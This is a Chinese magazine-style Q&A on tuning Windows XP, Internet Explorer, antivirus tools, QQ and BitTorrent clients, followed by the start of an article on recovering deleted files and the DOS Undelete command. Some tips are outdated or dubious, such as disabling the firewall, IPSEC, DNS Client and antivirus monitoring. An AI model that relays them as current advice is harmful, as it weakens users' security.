    在默认状态下，Windows XP专业版会保留20%的网络带宽，这可一下子让我们本来就不怎么“宽”的宽带雪上加霜了，我们可以使用组策略编辑器就可以取消保留带宽。在“开始→运行”中输入gpedit.msc，打开组策略编辑器。找到“计算机配置→管理模板→网络→QoS数据包调度程序”，选择右边的“限制可保留带宽”，选择“属性”就可以打开设置窗口，然后选择“禁用”即可。

-   （4）不检查预定任务
    通常情况下，当Windows XP连接到局域网内部的其他计算机时，会检查对方机子上所有预定的任务，这个过程会让你等上30秒钟，难怪很多人都觉得系统很慢。要把这个过程给禁掉的方法是在注册表中找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\RemoteComputer\NameSpace]。在这里面有个{D6277990-4C6A-11CF-8D87-00AA0060F5BF}键。只需把它删掉，重新启动计算机后，Windows就不再检查预定任务了，局域网访问速度会速度明显提高。

#### 问题四

我的Windows启动速度还算不错，但是感觉打开Windows菜单以及运行程序的速度都很慢，我是不是应该升级了？

答：升级固然能够获得性能上面的提升，但毕竟耗费了我们的金钱，因此在进行升级之前，我们应该尽量地去优化一下我们的系统，减少资源占用，下面几点是平时用户可能很少注意和用得上的地方，关闭之后说不定你的感觉就会完全不同了：

-   （5）让内存和CPU优先用于程序
    在Windows里面，除了我们正在运行的程序之外，还有许许多多的后台程序，如果你的硬件配置不是很高的话，这些后台程序在运行的时候就会影响前台程序的速度，因此我们可以设置让系统的内存和CPU优先用于当前的程序。在“我的电脑”上面右击，选择“属性→高级→性能→设置”按钮，打开“性能”选项对话框，然后打开“高级”选项卡，在“处理器计划”一栏里面选择“程序”，在“内存使用”一栏上选择“程序”（如图2），然后点击“更改”退出即可。

-   （6）清除预读文件
    当Windows XP使用一段时间后，预读文件夹里的文件会变得很大，里面会有死链文件，这会减慢系统时间。因此建议定期删除这些文件，譬如C:\windows\prefetch。

#### 问题五

我发现系统里面有一些软件不管怎么清理都无法清除完毕，譬如3721，另外注册表里面也有大量的以前已经卸载过的软件的残留，请问有办法能够彻底清除掉吗？

答：要清理流氓软件以及完全卸载应用软件，单靠手工是不行的，我们必须借助软件工具，目前最受欢迎的卸载工具莫过于“完美卸载”了，我们可以在http://gdfs.driversky.com/down/wmxzsetup.exe下载这个软件，接下来我们看看如何利用这个工具来做到完美卸载。

首先我们看看完美卸载的程序界面（如图3），我们要做的第一步就是设置“安装监视工具”，因为如果可以在安装软件之前提前运行，那么就能够让完美卸载在软件安装过程中监视磁盘文件和注册表中的变化，为日后卸载软件生成准确的日志文件。方法是点击“安装监视”按钮，打开“选择监视范围”窗口（如图4）。如果只是在一个磁盘中安装软件，可以自己指定一个分区进行监视，然后单击“指定监视”按钮。这样监视时速度快，占用资源少。不管有没有进行安装监视，我们都可以进行“垃圾清理”，它是完美卸载的一大优点，可以扫描并识别出百余种垃圾，包括垃圾文件、上网记录、注册表垃圾键值，快速而安全地清除是该工具的一大优点。点击“垃圾清理”按钮，打开“垃圾清理工具”窗口（如图5）。先在列表中先选择在哪些磁盘、哪些垃圾需要清除，不需要清除的请将其前面的对钩取消，然后单击“扫描系统”按钮开始扫描，在扫描过程中随时可以“停止扫描”。扫描结束后会在信息框中列出扫描到的垃圾，我们可以利用“取消该项”和“全部选中”等按钮来自己更改一下，然后点击“删除垃圾”按钮删除垃圾。如果要对删除方式进行设置，可点击“功能选项”按钮，在如图6的窗口中可以设置为直接删除垃圾、自动清除文档历史、扫描并清除垃圾后自动关机。

由于系统的垃圾是每天都会产生的，如果每天都运行一次垃圾清理是在有点麻烦，这时候我们可以使用“闪电式清理”，它能够大大节省清理时间。在软件主界面上点击“闪电清理”按钮，打开“闪电式垃圾清理”窗口（如图7）。在该窗口设置好“上网清理设置”、“文档清理设置”、“软件清理设置”选项，点击“保存当前设置”按钮保存设置。接着在“其他功能设置”项设置为在“IE浏览器中嵌入清理按钮”，开启了该功能之后，当你在使用IE浏览器时即可随时单击该按钮，立刻清除掉IE中的所有垃圾，真正做到“闪电清理”。

我们在日常的使用中会打开大量的文件，同时这些文件极有可能在日后被删除，但可惜的是这些打开记录是不会被 Windows 或 Office 自动清除的，因此使用“快捷方式清理工具”可以扫描出这些不存在的记录并删除，此工具极为安全，在主界面直接点击“快捷方式清理工具”，打开“快捷方式清除工具”窗口，然后点击“扫描系统”按钮开始扫描系统中的快捷方式，扫描结束后会弹出消息框，里面列出了检查到的错误快捷方式名称，可通过全部选中、全部取消配合手工选择，确定后点击“删除目标”按钮即可将选中的快捷方式清除。

另外，无用和重复的 DLL 文件也是非常占用系统资源的，我们可以点击“DLL 清理”按钮打开“冗余 DLL 清理工具”窗口。然后点击“扫描分析”按钮找出系统中所有重复的 DLL。扫描结果会以两种图标提示，绿色表示可以清除，红色表示不确定。如果要删除的话，只要选择“全部勾选”、“全部取消”或者手工勾选相应的 DLL 文件即可，最后点击“删除 DLL”，清除后将自动把这些 DLL 备份在完美卸载的安装目录的 DllBackup 中，用户在经过一段时间的运行后系统正常，可以手工删除这个文件夹，删除后将无法恢复。在删除 DLL 之后如果觉得系统不正常，可以通过“还原恢复”功能用备份文件夹 DllBackup 恢复以前删除的 DLL。

如果我们需要更深入地对系统进行清理，可以使用“高级清理”功能。单击“高级清理”按钮即可打开“注册表清理专家”窗口（如图 8）。在这里点击“备份注册表”按钮即可将注册表备份到 C:\RegBckup 文件夹中，备份格式为“年月日.reg”格式。要恢复注册表的话，只需要点击“打开注册表文件并还原”按钮，在打开的窗口中选择好合适的注册表备份文件，双击即可将注册表还原。另外在“控件清理”中可以看到在本机已经安装的控件，对于有些控件可能并没有使用，不仅占据了大量的空间，还会影响机器的速度，可以对其进行适当的清理以提高启动和上网的速度。一般来说如果已自动打上钩则表示可以安全删除，如果你不清楚是什么控件，可以查看一下“控件信息”部分，选择好后点击“删除该控件”按钮即可。在“文档类型”中列出了系统中所有已经注册的文档类型，包括一些软件已经卸载但没有释放的文档类型。对于分析后状态为“无效”的类型，经过确认后可以删除，自动打钩表示可以安全删除。对于系统中已经存在的区域代码，包括各个国家的区域方案，如果并不使用这些方案，可以删除其中的方案。对于系统中的代码页，也可以删除你所不用的代码页，但注意不要删除中文代码页和 BIG5 等代码页。

最后，也是最重要的功能就是“系统修复”了，它能够扫描并识别注册表中的大量错误。点击“系统修复”按钮打开“系统修复专家”窗口（如图 9）。在“修复问题列表”里面首先选择需要修复的对象，然后点击“扫描注册表”按钮。扫描完成后会在下面列出扫描到的错误名称、指向文件和说明。如果想修复某几个错误，则单击“修复指定错误”按钮修复错误，如果想修复所有错误，则单击“修复所有错误”按钮修复错误。

对于一些高级用户而言，“完美卸载”还具备了系统优化、安全保护等功能，可以说是功能相当强大和实用。

#### 问题六

我在系统的后台服务列表里面看到很多正在运行的服务，这些服务会不会占用大量的系统资源呢？哪些后台服务可以被我安全关闭，这些后台服务又代表什么呢？

答：Windows 的后台服务的确有很多是浪费资源又不必要的，它们占用的资源量非常大，因此我们完全可以把它们给禁用掉，但是这个过程要小心，一旦你禁用错了别的服务，可能你下次就无法正常登录到 Windows 里面了。对于后台服务的列表，我们可以通过右键单击“我的电脑→管理→服务和应用程序→服务”来打开（如图 10）。双击任意一个服务即可打开如图 11 的窗口，只要在下拉菜单中“启动类型”的下拉菜单中选择“手动”或者“已禁用”即可令该服务在下次启动的时候不自动运行，另外也可以直接点击“停止”按钮立刻停止这个服务。下面我就逐个服务介绍给大家，看看哪些服务可以禁止掉的：

-   （1）Alerter 一般家用计算机根本不需要传送或接收计算机系统管理的警示（Administrative Alerts），除非你的计算机用在局域网络上。建议停用。
-   （2）Application Layer Gateway Service 如果你不使用因特网联机共享（ICS）提供多台计算机的因特网存取和因特网联机防火墙（ICF）软件，你可以关掉。
-   （3）Application Management（应用程序管理） 提供指派、发行以及移除的软件安装服务，建议手动。
-   （4）Automatic Updates 这个是允许Windows于背景自动联机之下，到Microsoft Servers自动检查和下载更新修补程序。
-   （5）Background Intelligent Transfer Service 使用闲置的网络频宽来传输数据，譬如说Windows Update。
-   （6）ClipBook（剪贴簿） 启用剪贴簿检视器以储存信息并与远程计算机共享。如果这个服务被停止，剪贴簿检视器将无法与远程计算机共享信息，不过把剪贴簿内的信息和其他计算机分享是一般家用计算机根本用不到的。建议停用。
-   （7）COM + Event System（COM + 事件系统） 有些程序可能用到COM + 组件，不过一般家庭用户是用不到的。建议手动。
-   （8）COM + System Application 如果上面的COM + Event System是一台车，那么COM + System Application就是司机，用来控制前面服务的运行。
-   （9）Computer Browser（计算机浏览器） 用来维护网络上更新的计算机清单，并将这个清单提供给作为浏览器的计算机。一般家庭用计算机不需要，除非你的计算机应用在区域网上（注意不是局域网）。
-   （10）Cryptographic Services 简单地说就是Windows Hardware Quality Lab（WHQL）微软的一种认证，如果你有使用自动更新（Automatic Updates），那你可能需要这个。
-   （11）DHCP Client（DHCP客户端） 使用DSL/Cable、ICS和IPSEC的人都需要它来指定动态IP，建议局域网里面使用动态分配IP的用户开启这个服务，家庭用户或者固定IP用户则不需要。
-   （12）Distributed Link Tracking Client（分布式连结追踪客户端） 维护网区内不同计算机之间的档案连结。
-   （13）Distributed Transaction Coordinator（分布式交易协调器） 一般家庭用计算机不太用得着。
-   （14）DNS Client（DNS客户端） 一般用户用不着这个服务。
-   （15）Error Reporting Service 微软的应用程序错误报告。
-   （16）Event Log（事件记录文件） 允许事件讯息显示在事件检视器之上。建议自动。
-   （17）Fast User Switch Compatibility 是注销画面中的切换使用者功能，如果你的电脑不是经常需要注销或者多用户使用的话可以禁止。
-   （18）Help and Support 如果你从来不开Windows的帮助那就关了吧。
-   （19）Human Interface Device Access 启用对人性化接口装置（HID）的通用输入存取。建议停用。
-   （20）IMAPI CD-Burning COM Service Windows XP整合的光驱刻录功能，可惜一般我们都用别的刻录软件了。
-   （21）Indexing Service（索引服务） 简单地说可以让你加快搜查速度，不过很少人和远程计算机作搜寻。
-   （22）Internet Connection Firewall（ICF）/ Internet Connection Sharing（ICS） 如果你不使用因特网联机共享（ICS）或是系统内含有因特网联机防火墙（ICF）你可以关掉。
-   （23）IPSEC Services（IP安全性服务） 协助保护经由网络传送的数据。IPSec是一个重要环节，为虚拟私人网络（VPN）中提供安全性，而VPN允许组织经由因特网安全地传输数据。在某些网域上也许需要，但是一般使用者大部分是不太需要的。
-   （24）Logical Disk Manager（逻辑磁盘管理员） 磁盘管理程序用来动态管理磁盘，如显示磁盘可用空间等和使用Microsoft Management Console（MMC）主控台的功能。
-   （25）Logical Disk Manager Administrative Service（逻辑磁盘管理员系统管理服务） 使用Microsoft Management Console（MMC）主控台的功能时才用到。
-   （26）Messenger（信差） 允许网络之间互相传送提示信息的功能，如不想被骚扰的话可关掉。
-   （27）MS Software Shadow Copy Provider 用来备份的软件，譬如MS Backup程序就需要这个服务。
-   （28）Net Logon 一般家用计算机不太可能用到登入网域审查这个服务。
-   （29）NetMeeting Remote Desktop Sharing（NetMeeting远程桌面共享） 让使用者可以将计算机的控制权分享予网络上或因特网上的其他使用者，如果你重视安全性不想多开后门，就关了吧。
-   （30）Network Connections（网络联机） 控制你的网络联机。

### 二、降低IE的资源占用

浏览器是上网冲浪必备的软件，但是你有没有想过，你正在使用的浏览器里面，可能有一大堆功能是你没有用上的，但却无时无刻不在侵蚀着你的上网速度。要知道现在的浏览器功能越来越强大，特别是IE，里面拖带着一大堆没有用处的功能，因此让浏览器全速运行，占用更少的系统资源已经是刻不容缓的事情了。

#### 问题一

IE临时文件听说都存放在C盘下面，请问如果把临时目录移到别的驱动器会不会影响上网速度呢？

答：不会的，反倒会让你的系统更容易保持一贯的速度。正常情况下，IE在上网的过程中会在系统盘内自动把浏览过的图片、动画、Cookies文本等数据信息保留在C:\Documents and Settings\work hard\Local Settings\Temporary Internet Files (Windows 98则是C:\Windows\Temporary Internet Files)内，这样的目的是为了便于下次访问该网页时迅速调用已保存在硬盘中的文件，从而加快上网速度。但是上网的时间一长，临时文件夹的容量越来越大，这样容易导致磁盘碎片的产生，影响系统的正常运行。因此我们可以把临时文件移动到别的驱动器上面去，这样一来可减轻系统的负担，二来可在系统重装后快速恢复临时文件。方法是在打开IE，依次点击“工具→Internet选项→Internet临时文件→设置”(如图12)，选择“移动文件夹”的命令按钮并设定C盘以外的路径，然后再依据自己硬盘空间的大小来设定临时文件夹的容量大小即可。

#### 问题二

请问我把IE历史记录清除掉会不会对上网速度提高有帮助？

答：为了便于帮助用户记忆其曾访问过的网站，IE提供了把用户上网所登录的网址全部记忆下来的功能。虽然这个记忆的功能能帮助少许人记忆网址，但却并没有太大的作用，而且很容易被别人探察到自己的隐私，至于影响速度方面倒不是很严重，但是我建议还是经常把历史记录清除掉比较好。点击“工具→Internet选项”，找到位于下方的“历史记录”，我们可根据个人喜好输入数字来设定“网页保留在历史记录中的天数”(如图13)，譬如说设成1，那么一天之前的历史记录全部都会被自动删除了，或者直接按下“清除历史记录”的按钮来清除所有历史记录。

#### 问题三

自动完成是否和历史记录一样对IE的速度没有影响呢？

答：总的来说影响不是很大，但毕竟自动完成功能会占用一定的资源，加上可能会让别人轻易获得你的密码，因此还是清除甚至禁用掉比较好。在IE工作状态下依次点击菜单栏上的“工具→Internet选项→内容”，然后在个人信息处单击“自动完成”按钮，出现如图14的窗口。在这里可以设置自动完成的功能范围，如“web地址”、“表单”、“表单上的用户名和密码”，还可通过“清除密码”和“清除表单”来去掉自动完成保留下来的密码和相关权限。我们不但可以清除掉所有保留的密码，还可以把不需要的功能前面的小钩去掉，这样自动完成功能就不会启用了。

#### 问题四

IE里面的脚本有什么作用？会影响上网的速度吗？

答：肯定会影响的，而且Java、JavaApplet、ActiveX等程序和控件在提供精彩特效的同时，也会让一些不怀好意的破坏者们用在网页源文件中加入恶意的Java脚本语言或嵌入恶意控件的方法，从而入侵我们的系统。为了提高网络浏览速度，以及避免我们的系统被攻击，我们应该对Java、javascript等脚本、ActiveX的控件和插件进行限制，以确保安全。点击IE菜单栏中的“工具→Internet选项→安全→Internet→自定义级别”，然后进行相关的设置（如图15）。在这里可以对“ActiveX控件和插件”、“Java”、“脚本”、“下载”、“用户验证”等安全选项进行选择性设置，如“启用”，“禁用”或“提示”。对相关选项不熟悉的朋友们可在“重置”的下拉框中选择安全级别，然后点击“确定”让修改生效。不过有些网站在被限制了脚本之后可能会出错而无法浏览全部的效果，这时我们重新打开就可以了。

#### 问题五

禁用Cookies会提升网络速度吗？

答：有一点提升，但作用不是很大，事实上Cookies对IE的负面影响是不小的，因为Cookies其实是从网站传给用户电脑上的一个认证性质的文件，由Cookies反馈出电脑的信息给网站的服务器，而后服务器在决定是否开启相关权限给上网用户的电脑。可是，一旦Cookies为黑客，则电脑中的私人信息和数据安全就可能被“盗窃”。因此我们同样要限制Cookies的权限。进入IE的“Internet选项”，在“隐私”标签中找到“设置”，然后通过滑杆来设置Cookies的隐私设置，从高到低划分为“阻止所有Cookie”、“高”、“中高”、“中”、“低”、“接受所有Cookie”六个级别（默认级别为“中”）。

#### 问题六

在不提高硬件以及网络配置的前提下，有能够综合提高我的IE浏览器的性能，降低资源占用的方法吗？

- （1）禁用部分多媒体内容
    多媒体，如动画、音频、视频，可以让静止的页面变得丰富多彩。但与此同时，它们也占据了我们不甚丰裕的带宽。如果你上网浏览更多地只是查看文字内容，目的性比较强的话，建议禁用IE的多媒体内容。点击“工具→Internet选项→高级→多媒体”，然后你将看到“播放动画”、“播放声音”、“播放视频”、“显示图片”等内容。要屏蔽它们，只需清除其前面的选择符号就行了。需要说明的是如果启用显示图片，但却禁用播放动画的话，那么网页上的所有动画都会显示第一帧的内容，犹如一张静止的图片。
- （2）将“主页”设为空白页
    每当我们打开IE的时候，浏览器会直接登录所设定的“主页”地址，如果我们并不想登录该站点，这无疑浪费了上网时间。解决办法是将“主页”设为空白页。点击“工具→Internet选项→常规”，然后在主页栏中找到“使用空白页”按钮，点击即可。
- （3）加大磁盘缓存容量
    当我们在浏览网页时，浏览器会自动将该网页的HTML源代码与图片储存到磁盘缓存中，当我们离开后又重新回到该网页时，就可以直接从磁盘上进行调用，而不需要再通过网络重新读取内容，其提速效果是非常明显的。点击“工具→Internet选项→Internet临时文件→设置”，然后在弹出的窗口中拖动“使用磁盘空间”下的滑块，最后点击“确定”即可。要提醒大家的是，缓存的大小还得根据你的硬盘容量进行考虑，设置太小达不到提速目的，设置太大不仅耗费系统资源，更大的问题在于延长了磁盘的查找时间，提速效果也往往打折。一般情况下，该分区7％～8％的空间作为缓存区就足够了。
- （4）善用“停止”与“刷新”
    在网络冲浪过程中，我们常常遇到内容过长，页面停止响应的情况，这时只需点按工具栏上“停止”按钮，然后再点按“刷新”按钮，就可以从新读取页面内容了，这样可以省下不少的时间。

### 三、优化防病毒软件的资源占用

防病毒软件是一把双刃剑，在保卫电脑安全的同时，它也蚕食了不少的系统资源，譬如最主流的卡巴斯基以及瑞星，它们都会让系统速度变慢，因此我们有必要学习一下如何优化防病毒软件。

#### 问题一

我安装了卡巴斯基防病毒软件，但是让我的系统速度变得很慢，请问有方法能够让卡巴斯基起作用，而又不会让我的系统变慢吗？

答：卡巴斯基杀毒软件是一款很不错的杀毒软件，只需要通过下面的几个步骤设置一下，就能够提高卡巴斯基的使用效率。首先我们打开卡巴斯基的主界面，点击“设置→保护”选项，出现如图16的窗口。在这里要说明的是，卡巴斯基的病毒实时防护有四个部分，每个部分都会占用不少系统资源，因此我们可以禁用掉不必要的功能，譬如说“邮件防护”。这个功能对于用Outlook或者别的软件进行POP3收取E-mail的用户而言是有用的，但是对于直接到网站上面收发Web Mail的朋友而言就完全可以禁用了。另外主动防御也是一个对系统资源蚕食比较严重的功能（如图17），它里面有些功能是我们用不上的，譬如“Office防护”对大多数只是偶尔开开Word的朋友来说就不需要了。

| 设置项目 | 描述 |
| :--- | :--- |
| 邮件防护 | 对于使用Web Mail的用户可以禁用 |
| Office防护 | 对于不常使用Office的用户可以禁用 |

接下来点击“服务”（如图18），记住一定要把“当CPU使用率过高时停止扫描”勾上，这样如果你的系统正在运行一些大型的软件或者游戏的话，那么卡巴斯基就会自动停止扫描，让你的系统保持快速了，很多朋友就是忘记选择这个选项，因此卡巴斯基才会和别的软件争夺资源，从而让系统速度降低的。然后我们点击“更新”分支（如图19），在缺省状态下面，卡巴斯基是自动进行更新的。卡巴斯基的更新非常快速，每天几乎都有三次以上的更新，但每次只更新一丁点东西，它也会占用我们宝贵的网络带宽，因此我们可以把“更新方式”设置成为“每隔1天”或者是“手动”。如果是后者的话，大家可要记得更新，否则就无法使用最新的病毒库了。

经过一番设置之后，现在卡巴斯基已经尽可能地少占用你的系统资源了，如果你还是觉得系统慢，只能选择另外一些对资源占用没有那么严重的防病毒软件了。

#### 问题二

我正在使用瑞星防病毒软件，请问有什么方法能够优化设置一下，让它运行得更快呢？

答：首先我们打开瑞星的主界面，点击“详细设置→手动设置→高级设置”（如图20），在这里面的多数设置我们都不必更改，我们可以关闭“信息中心”这个选项（如图20）。关闭之后瑞星就不会经常连接到网上去获取最新的安全信息了，只是如果你的系统速度够快，建议还是选上，毕竟信息是很重要的。另外在“快捷扫描”的高级设置中，默认的设置中“使用智能提速”是关闭的，建议大家打开，可以加快扫描的速度（如图22）。而在制定任务设置中，如果大家不是频繁地使用软驱，就不必选择“关机时检测软驱”。在“监控设置中心”里面有多种监控可以供我们选择，和卡巴斯基一样，关闭不需要的监控可以让系统获得更多的资源，建议大家把内存监控和邮件监控关闭掉。

### 四、降低其他工具软件的资源占用

下面我们就一起来看看，如何降低一些我们常用的工具软件的资源占用，优化系统速度。

#### 问题一

我在使用QQ的过程之中总是觉得QQ的打开速度很慢，请有什么方法解决呢？

答：QQ现在的功能多了，面板也复杂了，其实对于用户来说真正实用的功能并没有增加多少，因此我们可以把一些没用的面板给去掉，让QQ运行得更快。首先选择QQ主界面上的“面板管理器”，弹出如图23的窗口。在这里面可以去掉不需要的面板以及组件。我在这里就只是保留了网络硬盘和QQ游戏，当然如果大家需要的话也可以保留其他面板。接着切换到“组件管理”标签（如图24），建议大家去掉QQ搜索和通信录，因为通信录使用的时候经常会弹出使用向导，非常麻烦。

有很多朋友喜欢在聊天室聊天，经常会游荡在QQ中的各个聊天室之间，有时不小心进入QQ“十八禁”聊天室，被熟悉的同学朋友发现了，那可是够尴尬的，QQ中就有这样的设置，可以隐藏你的个人隐私。选择不可见状态之后重新登录就可以了。此外，如果你装了视频又不想给陌生人搜索到，那么就把“不要列到在线视频用户列表中”这一项也选上吧（如图25）。此外QQ里面还有一个占用系统资源的大户，那就是“魔法表情”，我们可以在“系统设置→基本设置”里面把它关掉，把“自动播放魔法表情”前面的方框清空即可。另外这里还可以设置禁止所有用户上线提示，这样右下角就不会总是出现提示了。养烦了QQ宠物的朋友也可以在综合设置面板中把QQ宠物启动项关掉，就不用每天启动时总要看一次提示了，这里最好还要把对讲机设置为拒绝接听呼叫，以后就不会有人骚扰了。

#### 问题二

我经常用电驴（eMule）来下载网络电影，但是eMule对系统资源的占用好像挺大的，可以降低一些吗？

答：eMule是大家常用的P2P软件，用它下载电影、歌曲和游戏非常方便，只要好好设置一下，就可以大幅降低它所占用的系统资源。

- （1）关闭欢迎窗口
    欢迎界面其实没什么用处，而且会减慢软件启动的速度，最好关闭它。打开“eMule”后点击工具栏上的“选项”按钮，在弹出的“选项”窗口中点击左面的“常规”。

#### 问题三

听说BT下载狂占资源而且很伤硬盘，有什么方法可以避免吗？

答：如果你不对BT软件进行适当限制，的确会对硬盘造成一定的损害，而且网络的上传带宽很可能也会被完全占用的，因此我们最好按照下面的方法来使用BT下载。

-   (1) 专用的硬盘
如要你有多余的硬盘，如升级淘汰下来的小硬盘，把那块硬盘安装到机器上做成一个分区，专门用来存放BT下载的文件，下载完成后再拷贝到别的分区上去。这样如果BT真的“吃”硬盘的话，也是“吃”了你的“剩菜”，损失不大，不心疼。

-   (2) 不要长时间开机下载
BT下载狂常常整日整夜开着机让它自己下载，三五天不关机是常事，这样的情况导致硬盘温度过高，加速其老化和疲劳，况且现在的高速硬盘发热量都很大，如果机箱的散热条件不是很好的话，那就更惨了。所以下载BT资源时原则上连续时间一般不超过12个小时，同时可以考虑给硬盘加一个比较好的风扇。

-   (3) 少开几个下载任务
许多人在下载的时候总是喜欢同时进行五六个下载任务，希望下载能够快一点，好减轻一点硬盘的负担，其实那样反而有害，更多的连接就会对硬盘有更频繁地访问。而带宽又是固定的，多开几个任务反而会使每个任务平均分配到的带宽减少，速度根本快不了的。

#### 问题四

我使用的BT软件是BitComet，请问有什么优化设置可以帮助BitComet提速呢？

答：首先点击BitComet的“选项”，在窗口里面把“全局最大下载速度无限制”调整到1000，“全局最大上传速度无限制”调整到40，这是根据个人情况来决定的，因为现在2MB的ADSL上传速度顶多也就60KB/s左右，因此40KB已经是一个比较大的上传速度了。如果你使用的是小区宽带，那么可以考虑开放到100KB甚至是200KB的上传速度，以自己的网络速度不受到明显影响为宜。在上图中点击“网络连接”，然后进行如下的设置：每任务最大连接数改到1000；每任务保持连接数改到50；全局保证上传连接数改到10；连接发起间隔改到150或100；最大同时尝试的TCP连接个数改到1000；是否允许通过UDP实现内网互连，内网用户设定“允许”，公网设定“禁止”。

点击“IP规则”切换到窗口，在这里进行如下的设置：下载任务每IP最大允许连接数改到20；上传任务每IP最大允许连接数改到5；内网的用户把“允许向服务器报告内网IP便于子网内连接”打上钩。

最后点击“磁盘缓存”，切换到窗口并进行如下的设置：如果你是256MB的内存，那么磁盘缓存最小值为6MB，磁盘缓存最大值为25MB，减小磁盘缓存当空闲物理内存低于30MB，并且“在最大最小值范围内自动调整缓存大小”上打上钩。如果你的内存在512MB甚至更高，那么可以增大一倍的数值。注意不要设置太高了，否则速度反而会下降。

通过以上设置，速度一般可以上升50～70K，而且资源占用也合理了。值得一提的是上传速度不要限制得太厉害，否则反而会影响总体的下载速度，因为现在BT下载很多时候是根据你的上传速度来进行判断的。

## 擦干眼泪，拯救自己

## 恢复被删除数据的软件及使用方法

文 / 徐建军

想必大家都碰到过对存储设备上的数据误删除，或者对某个盘格式化后才发现数据没有备份，还有可能系统被病毒破坏，硬盘的分区表或文件分配表被病毒改写，但是硬盘上存着你数年的心血或者公司立即要用的文件。这时我们就需要对数据进行恢复，虽然这个词听起来是多么的专业，好像深不可测，但实际上并不是大家想象的那样不可接触，在我们手边就有需要可以恢复数据的软件可以信手拈来使用，并且用起来还十分容易上手。通过这些数据恢复软件自己就能够解决不少问题。

现在使用的操作系统绝大部分都是Windows系列版本，在误删除数据以后，如果设定的是先删除到回收站，那就好说，可以轻易恢复被删除的文件。但是，如果是在DOS下删除，或者是硬盘被格式化，或者是不经过回收站直接删除，甚至是在其他操作系统下删除的文件，我们又该如何操作呢？下面就来说说我们最常用的恢复被删除数据的软件及使用方法。

### 一、数据存储基本原理

要恢复被删除数据，首先要明白数据存储、删除及恢复的基本原理。我们就以一块硬盘（常用的FAT12、FAT16、FAT32基本原理大致相同），使用操作系统为微软系列操作系统为例，粗略地说说这些基本原理：

#### 硬盘数据结构

一块新的硬盘，我们需要对它进行分区、格式化，然后再安装上操作系统才可以使用。不管是以前使用的DOS系列操作系统，还是现在使用的Windows系列的操作系统，我们一般要将硬盘分成主引导扇区、操作系统引导扇区、FAT、DIR和Data等五部分）。

##### 主引导扇区

主引导扇区位于整个硬盘的0磁道0柱面1扇区，包括硬盘主引导记录MBR（Main Boot Record）和分区表DPT（Disk Partition Table）。其中主引导记录的作用就是检查分区表是否正确，以及确定哪个分区为引导分区，并在程序结束时把该分区的启动程序（也就是操作系统引导扇区）调入内存加以执行。至于分区表，很多人都知道，以80H或00H为开始标志，以55AAH为结束标志，共64字节，位于本扇区的最末端。值得一提的是，MBR是由分区程序（例如DOS的Fdisk.exe）产生的，不同的操作系统可能这个扇区不尽相同。这么短的数据，你甚至可以用编辑器打开硬盘的主引导分区，手工把另外一块硬盘的分区表抄袭过来，本人还依稀记得在DOS操作系统的时候，曾经使用过一个KV300的一个分区表修复的功能，直接打开分区表后，手动检查分区表是否被破坏。

##### 操作系统引导扇区

操作系统引导扇区通常位于硬盘的0磁道1柱面1扇区（这是对于单引导方式的操作系统来说的，对于那些以多重引导方式启动的系统则位于相应的主分区/扩展分区的第一个扇区），是操作系统可直接访问的第一个扇区，它也包括一个引导程序和一个被称为BPB（BIOS Parameter Block）的本分区参数记录表。其实每个逻辑分区都有一个这样的引导扇区，其参数视分区的大小、操作系统的类别而有所不同。引导程序的主要任务是判断本分区根目录前两个文件是否为操作系统的引导文件（例如MSDOS、WIN95、WIN98的IO.SYS和MSDOS.SYS）。如果是，就把第一个文件读入内存，并把控制权交予该文件。BPB参数块记录着本分区的起始扇区、结束扇区、文件存储格式、硬盘介质描述符、根目录大小、FAT个数、分配单元（Allocation Unit，以前也称之为簇）的大小等重要参数。操作系统引导扇区由高级格式化程序产生（如Format.com），或者说，就是Format.com等一些高级格式化程序决定了该分区的性质。

##### 文件分配表

文件分配表缩写就是我们很熟悉的FAT（File Allocation Table），是DOS/Win9x系统的文件寻址系统，FAT区紧接在操作系统引导扇区之后，其大小由本分区的大小及文件分配单元的大小决定。FAT的格式有很多种，我们熟悉的微软常用的FAT12、FAT16和FAT32、NTFS格式，还有OS/2、UNIX/Linux、Novell等都有相应的文件管理方式。

##### 目录区

根目录区的英文简写为DIR（Directory），DIR紧接在FAT表之后，只有FAT还不能定位文件在磁盘中的位置，FAT还必须和DIR配合才能准确定位文件的位置。DIR记录着每个文件（目录）的起始位置（这是最重要的）、文件的属性等。定位文件位置时，操作系统根据DIR中的起始单元，结合FAT表就可以知道文件在磁盘的具体位置了。在DIR区之后，才是真正意义上的数据存储区，即DATA区。说白了，DIR就像是一本书的目录，它说明了某篇文章从第几页开始，有多少页。

数据恢复最重要一点就是从DIR区找回某个文件起始位置等属性，然后根据FAT的指引，从数据区把文件的数据找回，形成文件，这个文件就是恢复的被删除文件。

##### 数据区

DATA虽然占据了硬盘的绝大部分空间，但没有了前面的各部分，它对于我们来说，也只能是一些枯燥的二进制代码，没有任何意义，就像一本书，把每一页纸撕开了。在这里有一点要说明的是，我们通常所说的快速格式化并没有把DATA区的数据真正清除，只是重写了FAT表，让FAT表不再记忆以前硬盘里的每一个文件的位置、大小的分配信息而已。还有，删除某一个文件的原理也是这样。至于分区硬盘，也只是修改了主引导扇区和操作系统引导扇区，DATA区的数据并没有被改变，这也是许多硬盘数据能够得以修复的原理所在。在没有向已删除数据的分区重写任何数据时，我们只要找回FAT表里被删除文件的信息，就能够由这些信息为向导，把硬盘数据整合成以前的文件，恢复被删除数据的工作就算成功了。

以上是文件存储的基础知识，下面我们就针对数据的恢复有针对性地说说数据存储的原理：

### 二、古老而有效的数据恢复工具Undelete

在纯DOS下恢复被删除的文件主要是依靠Undelete这条DOS命令，从名称上看，就是Un-delete。delete大家就知道，是删除的意思，在DOS下删除命令是del，那么这条命令从英文字面解释就是：反删除。

这条命令是DOS的一条外部命令，也就是说需要有这个可执行文件才能运行，不像dir、del、md这样的命令，只要启动DOS了就可以执行。Undelete的命令执行格式为：

```
undelete [盘符:][路径名]<文件名> [/DOS] [/LIST] [/ALL]
```

后面方括号里面就是该命令的参数。各参数的意义为：

| 参数 | 意义 |
| :--- | :--- |
| /DOS | 该参数根据目录里残留的记录来恢复文件。由于文件被删除时，目录所记载该文件名第一个字符会被改为E5，DOS即依据文件开头的E5和其后续的字符来找到欲恢复的文件，所以，Undelete会要求用户输入一个字符，以便将文件名字补齐。但此字符不必和原来的一样，只需符合DOS的文件名规则即可。 |
| /LIST | 加入该参数则只“列出”符合指定条件的文件而不做恢复，也就是说只看不做，所以对磁盘内容完全不会有影响。 |
